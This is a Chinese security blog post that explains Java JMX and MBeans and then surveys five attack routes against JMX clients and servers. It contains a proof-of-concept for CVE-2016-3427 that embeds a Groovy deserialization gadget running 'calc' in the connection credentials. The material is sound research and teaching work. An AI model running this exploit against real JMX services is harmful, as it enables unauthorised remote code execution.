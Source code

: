 # JMX-Attack(1)

  
  
&lt;!--more--&gt;  
## 0x00 基础知识  
JMX时Java1.5引入的新特性，全称为`Java Management Extension`，即Java管理扩展，是管理/监控应用程序、设备、系统对象的工具。这些被管理的对象都可以抽象为MBean进行表示，客户端连接到服务端来管理MBean，如查询MBean属性、调用MBean方法等操作。而MBean的代码定义是有要求的，需要实现一个接口，所有需要对外公开的方法都需要在该接口中声明。另外此接口要求在MBean类名后加上MBean后缀，这里的例子中的MBean类是Hello，接口为HelloMBean。  
```java  
package org.example;    
    
public class Hello implements HelloMBean {    
    private String name  = &#34;huahua&#34;;    
    @Override    
    public String getName() {    
        return this.name;    
    }    
    
    @Override    
    public void setName(String name) {    
        this.name = name;    
    }    
    
    @Override    
    public String sayHello() {    
        return &#34;hello: &#34;&#43;this.name;    
    }    
}  
```  
`HelloMBean`接口  
```java  
package org.example;    
    
public interface HelloMBean {    
    public String getName();    
    public void setName(String name);    
    public String sayHello();    
}  
```  
对于管理器来说，这些MBean中公开的方法，最终会被转化为属性(Attribute)、调用(invoke)、监听(Listener)等概念。默认情况下每个Java进程都运行着MBean管理服务，使用`ManagementFactory.getPlatformMBeanServer()`获取到`MBeanServer`后可对`MBean`进行操作。下面的例子模拟管理器注册MBean并显示当前Java进程中的所有MBean  
```java  
package org.example;    
    
import javax.management.MBeanServer;    
import javax.management.ObjectInstance;    
import javax.management.ObjectName;    
import java.lang.management.ManagementFactory;    
    
public class MBeanExample {    
    public static void main(String[] args) throws Exception {    
        Hello mbean = new Hello();    
    
        ObjectName mbeanName = new ObjectName(&#34;org.example:type=Hello&#34;);    
    
        MBeanServer server = ManagementFactory.getPlatformMBeanServer();    
        server.registerMBean(mbean,mbeanName);    
    
        for(Object object : server.queryMBeans(new ObjectName(&#34;*:*&#34;),null)) {    
            System.out.println( ((ObjectInstance)object).getObjectName());    
        }    
    
    }    
}  
```  
https://www.oracle.com/java/technologies/javase/management-extensions-best-practices.html  
想要MBean在管理器上可调用，那么需要指定一个`ObjectName`对象，关于对象名称的详细语法参考上面链接。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502162046949.png)
`Object Name`在注册`MBean`时用于指定名称，在查询的时候可以指定正则用于查询，去匹配名称符合正则条件的MBean。每个Object Name都需要包含一个type关键属性。  
## 0x01 攻击JMX  
1、JMX-URL连接地址可控的JNDI注入利用方式  
2、攻击RMI Registry的利用方式  
3、RMI层&#34;自定义&#34;方法`newClinet`利用方式  
4、JMX层MBean方法`getLoggerLevel/goClassHistogram`利用方式  
5、MLET动态加载`Evil MBean`的利用方式  
第一种是针对JMX客户端的利用方式。后面是针对JMX服务，其中234都需要目标`ClassPath`存在可用的`Gadget`链，而第五个`MLET`动态加载是载入执行攻击者创建的恶意MBean类方法，所以没有Gadget的链子。从整体来看，JMX客户端与服务端的交互的流程及利用点如下  
1、客户端使用`javax.naming.InitialContext#lookup`获取到名称为`jmxrmi`的`Stub`代理对象，当JMX url可控时，会造成JNDI注入的问题。这是第一个利用点  
2、客户端调用`javax.management.remote.rmi.RMIServer#newClient`去获取`RMIConnectionImpl Stub`代理对象。当JMX服务需要验证时，会使用`JAAS-based authenticator`进行权限验证：根据服务的启动参数及`jmxremote.password`、`jmxremote.access`配置文件去匹配，当校验通过后返回代理对象。  
这部分会涉及到两个利用点：  
a、JMX底层是根据RMI进行通信的，当JDK版本存在低版本时，可以利用攻击RMI Registry的exp进行攻击，可利用`bind/lookup`方法传输恶意序列化数据/UnicastRef链利用。这是第二个利用点。  
b、newClient方法符合我们在攻击RMI中提到的应用层反序列化问题，参数为OBject类型，可以塞入我们的恶意Payload数据。这是第三个利用点  
3、客户端invoke调用`RMIConnectionImpl Stub`代理对象的方法去操作MBean/获取MBean信息这部分会涉及到两个攻击点：  
a、JMX层在还原MBean方法参数时也是采用反序列化的方式进行还原的，所以可将恶意数据塞入默认的MBean的有参方法。这是第四个利用点  
b、在客户端连接成功创建MBean时，可调用MLET动态加载的方式去加载攻击者构造的Evil MBean完成利用。这是第五个利用点。  
## 0x02 jmx-url连接地址可控的JNDI注入  
使用`JMXConnectorFactory#connect`连接JMX服务端时，会调用到`InitialContext#lookup`去获取名称为`jmxrmi`的远端对象。当JMX url可控时，会造成JNDI注入的问题  
```java  
JMX JNDI Gadget:    
javax.management.remote.JMXConnectorFactory.connect(JMXConnectorFactory.java:270)    
javax.management.remote.rmi.RMIConnector.connect(RMIConnector.java:287)    
javax.management.remote.rmi.RMIConnector.findRMIServer(RMIConnector.java:1922)    
javax.management.remote.rmi.RMIConnector.findRMIServerJNDI(RMIConnector.java:1955)    
javax.naming.InitialContext.lookup(InitialContext.java:417)  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502162200987.png)
## 0x03 攻击RMI Registry的利用方式  
因为JMX底层也是根据RMI进行通信，所以当JDK版本在低版本时，也可以使用RMI Registry的exp进行攻击，且这种攻击方式的触发点是在RMI层，还未执行代JMX权限校验部分，所以不受JMX权限的限制。  
利用RMI中攻击注册中心的的方式就可以。  
## 0x04 RMI层“自定义”方法new Client利用方式(CVE-2016-3427)  
当客户端使用`JMXConnectorFactory.connect`去连接服务端时，最终调用到`javax.management.remote.rmi.RMIServerImpl_Stub#newClinet`发起连接。其实该方法符合我们在攻击RMI Registry中提到的“应用层反序列化问题”情况：new Client方法参数为Object类型，可以塞入我们的恶意Payload(利用JMXConnector.CREDENTIALS配置添加)，  
```java  
public static void main(String[] args) throws Exception {  
    Object obj = new Groovy1().getObject(&#34;calc&#34;);  
    connectWithJmxUrlByObject(obj);  
}  
  
private static void connectWithJmxUrlByObject(Object credentials) throws MalformedURLException, IOException {  
    String url = &#34;service:jmx:rmi:///jndi/rmi://192.168.232.145:2222/jmxrmi&#34;;  
    System.out.println(&#34;Trying to connect to &#34; &#43; url &#43; &#34; ...&#34;);  
    Map&lt;String, Object&gt; props = new HashMap&lt;&gt;();  
    props.put(JMXConnector.CREDENTIALS, credentials);  
    JMXConnector connector = JMXConnectorFactory.connect(new JMXServiceURL(url), props);  
    System.out.println(&#34;Connected: &#34; &#43; connector.getConnectionId());  
    System.out.println();  
    connector.close();  
}  
```  
具体漏洞详情可参考  
https://su18.org/post/rmi-attack/#1-%E6%81%B6%E6%84%8F%E6%9C%8D%E5%8A%A1%E5%8F%82%E6%95%B0  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/jmx-attack1/  


